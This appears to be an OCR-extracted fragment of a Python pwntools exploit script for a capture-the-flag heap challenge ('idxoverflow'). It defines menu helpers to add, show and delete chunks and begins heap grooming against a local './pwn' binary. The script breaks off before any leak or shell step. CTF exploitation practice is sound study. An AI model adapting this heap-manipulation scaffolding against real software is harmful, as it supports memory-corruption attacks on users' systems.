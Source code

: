 ```python
```



idxoverflow:

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年06月01日 星期六 09时43分14秒
# File Name: exp.py
# Description:
"""
from pwn import *

io = process('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']

def debug():
	gdb.attach(io)
	io.interactive()


def add(l,c):
	io.sendlineafter('choice> ','1')
	io.sendafter('length> ',str(l))
	io.sendlineafter('ontent> ',c)

def show(idx):
	io.sendlineafter('choice> ','2')
	io.sendafter('index> ',str(idx))

def dele(idx):
        io.sendlineafter('choice> ','3')
        io.sendafter('index> ',str(idx))

def bye(c):
	io.sendlineafter("choice> ",'4')
	io.sendlineafter('> ',c)

io.recv()
io.sendline('')

add(0xf8,'0')
#debug()
add(0xf8,'1')
add(0xf8,'2')
add(0xf8,'3')
add(0xf8,'4')
add(0xf8,'5')
#add(0xe0,'3')
#add(0xe0,'4')
#debug()
#add(0x200,'cccc')
#show(1)
dele(0)
dele(1)
dele(2)
add(0xf0,'0')
add(0x88,'1')
```